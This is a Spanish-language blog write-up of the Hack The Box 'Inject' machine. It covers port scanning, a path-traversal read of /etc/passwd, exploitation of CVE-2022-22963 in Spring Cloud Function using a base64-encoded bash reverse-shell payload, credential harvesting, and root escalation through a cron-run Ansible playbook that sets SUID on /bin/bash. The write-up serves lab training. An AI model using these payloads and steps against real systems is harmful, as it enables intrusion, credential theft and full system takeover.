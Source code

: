 ```yaml
---
layout: post
tittle: HTB Inject Writeup
author: Al3xt0r
date: 2023-06-16
tags: [CTF, HTB, Writeup, LFI]
---
```

{:.lead}

![](/assets/img/HTB_Injection/Inject.png)

## En esta maquina veremos:
* Scan de puertos
* LFI - Local File Inclusion
* Explotando funciones CRON

### Primer paso: PORT SCANNING

Vamos a usar la herramienta nmap, ya sabemos que hay muchas combinaciones, pero me gusta usar esta por la rapidez:

```bash
sudo nmap -sS -p- 65535 --open --min-rate 5000 -vvv -n -Pn <Ip de la Maquina> -oG <Nombre del archivo que contendra la informacion>
```
Aunque tambien podemos usar tambien:
```bash
sudo nmap -T5 <IP Maquina>
```
A estos puertos le pasaremos un scan de **reconocimiento**, pero esta vez del servicio y versiones que corren tras la pagina.
```bash
nmap -sCV -p<Puertos>
```
Como sea, obtendemos lo siguiente:
![](/assets/img/HTB_Injection/Injection-PORTS.jpeg)

Podemos ver cosas interesantes:
* El puerto 22 (Perteneciente al SSH) esta abierto.
* No se emplea un puerto 80 o un 443 para mostrar la pagina, sino, un servicio web-proxy en el puerto **8080**

Si vamos a esa puerto, podremos ver una interfaz de subida de archivos.
![](/assets/img/HTB_Injection/Injection-UI.jpeg)

Si es que subimos un archivo **test**, por ejemplo, nos dejara buscar por un paramentro:

```http
http://<IP>:8080/show_image?img=
```
Entonces, vamos a interceptar la peticion con la herramienta **BURPSUITE**, para hacer test a ese parametro.

En este caso usaremos un LFI clasico, "../../../etc/passwd", esto para listar posibles ususarios dentro del sistema:

![](/assets/img/HTB_Injection/Injection-Burp1.jpeg)

Vemos que existe un usuario **frank** y otro usuario **phil**, pero realmente lo que ahora queremos hallar es la version del framework que usa esta aplicacion, asi que con **Burpsuite**, nos ponemos a listar los directorios, hasta toparnos con:

![](/assets/img/HTB_Injection/Injection-Burp2.jpeg)

Vemos cosas interesantes:
* Un Spring Framework
* La version usada es muy antigua (2.6.5)
Si buscamos nos toparemos con un CVE, el **CVE-2022-22963**

### CVE-2022-22963
Puedes usar la [herramienta que yo use](https://github.com/J0ey17/CVE-2022-22963_Reverse-Shell-Exploit).

Pero si vamos a fondo, este **CVE-2022-22963**, explicado de forma rapida... Emplea un fallo de implementacion, atacando una ruta en especifico **"/functionRouter"**, dentro del servicio. 
* Le carga a la cabecera: 'spring.cloud.function.routing-expression', nuestro payload (En este caso una reverse shell), y la crea en el directorio temporal de la maquina.
Y bueno el comando que le carga en cuestion es el siguiente:
```bash
bash -c {echo,' + ((str(base64.b64encode(command.encode('utf-8')))).strip('b')).strip("'") + '}|{base64,-d}|{bash,-i}
```
Donde **command** contiene nuestra reverse shell.

### Continuando:

Podemos ver que ha funcionado:
![](/assets/img/HTB_Injection/Injection-CVE.jpeg)![](/assets/img/HTB_Injection/Injection-Burp3.jpeg)

Por lo que ahora queda ponernos en escucha con la herramienta **netcat** o si queremos ahorrarnos tratar la tty, con **pwncat-cs**.
![](/assets/img/HTB_Injection/Injection-RS.jpeg)
Si vamos investigando dentro del directorio principal del usuario **frank**, vamos a toparnos con un directorio ".m2/" que contendra un archivo interesante: "settings.xml", este contendra la password del usuario **phil** (Que de igual forma podremos listar con **burpsuite**):
![](/assets/img/HTB_Injection/InjectionRS2.jpeg)

Como ya tenemos usuario y password de **phil**, simplemente ingresamos a su cuenta y solo nos quedaria usar una herramienta de reconocimiento para ver lo que sucede detras del sistema:

Podemos usar perfectamente:
```bash
ps -aux
```
O por otro lado, servirnos de la herramienta [**pspy64**](https://github.com/DominicBreuker/pspy)

![](/assets/img/HTB_Injection/Injection-PSPY.jpeg)

Y nos vamos a topar con algo interesante, hay un proceso que parece ejecutar una tarea cron, que apunta a un directorio que contiene formatos .yml

![](/assets/img/HTB_Injection/Injection-CRON.jpeg)

Asi que si vamos a es ruta, vamos a poder ver que tenemos permisos de escritura, por lo que le introducimos nuestra escalada de privilegios de la siguiente forma:

```yaml
- hosts: localhost
  tasks:
  - name: Privilege Escalation
    command: chmod u+s /bin/bash
  become: true
```
Como podemos ver, esto apunta contra el propio localhost de la maquina, y ejecuta el comando a nivel de sistema que le da permiso de ser ejecutado por el user+superuser al binario "/bin/bash".

![](/assets/img/HTB_Injection/InjectionYML.jpeg)

Acto seguido tenemos 2 opciones, esperar a la tarea **CRON**, o forzarla, si la queremos forzar, solo copiamos el comando, pero ejecutamos nuesto binario:
![](/assets/img/HTB_Injection/Injection-100.jpeg)
Como podemos ver, una vez que se ejecuta el permiso del binario cambia a **"-rwsr-sr-x"**, por lo que para escalar privilegios solo nos queda ejecutar un:
```bash
bash -p
```
## FIN

